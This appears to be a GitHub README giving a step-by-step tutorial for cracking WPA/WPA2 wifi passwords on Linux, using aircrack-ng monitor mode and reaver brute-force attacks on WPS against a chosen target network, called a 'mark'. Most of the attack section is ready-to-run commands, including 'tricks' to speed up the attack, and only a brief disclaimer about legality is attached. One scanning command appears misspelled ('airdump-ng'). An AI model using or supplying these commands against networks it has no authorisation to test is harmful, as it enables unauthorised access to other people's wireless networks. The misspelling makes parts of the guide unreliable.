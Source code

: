 # How to crack wpa/wpa2 passwords with linux (tested on ubuntu and Elementary OS)

In order to crack wifi passwords with linux you need to install __aircrack-ng and reaver__

How to isntall aircrack-ng: www.aircrack-ng.org/install.html

Downloading reaver: code.google.com/p/reaver-wps/downloads/list

You might also need to install on you computer __libpcap-dev__ and __libsqlite3-dev__, in order to do that just type the following lines in the terminal:
```
sudo apt-get install libpcap-dev
```
AND
```
sudo apt-get install libsqlite3-dev
```

## Now, Lets start the attack

### if the next lines of code does not work, all you need to do is to type sudo in front of each one

1. Firstly, disconnect yourself from any wifi networks and type this code:
```
airmon-ng start wlan0
```

2. Next you need to put your wifi adapter into monitor mode, which will list all available wifi signals around you.
```
airdump-ng mon0
```
Once airdump list all availble wifi signals around, you can move to the next step, the actual attack.

3.After you decide which is you mark, all you need to do is to write this command with the marks mac adress in order to start the attack
```
reaver -i mon0 -b 00:11:22:33:44:55 -vv
```

## Cracking wifi passwords can be against the law in your country. You should not do this at all!

##TRICKS:

1. Speading the attack
```
reaver -i mon0 -b 00:01:02:03:04:05 -vv -d 0
```
OR
```
reaver -i mon0 -b 00:01:02:03:04:05 -vv --dh-small
```
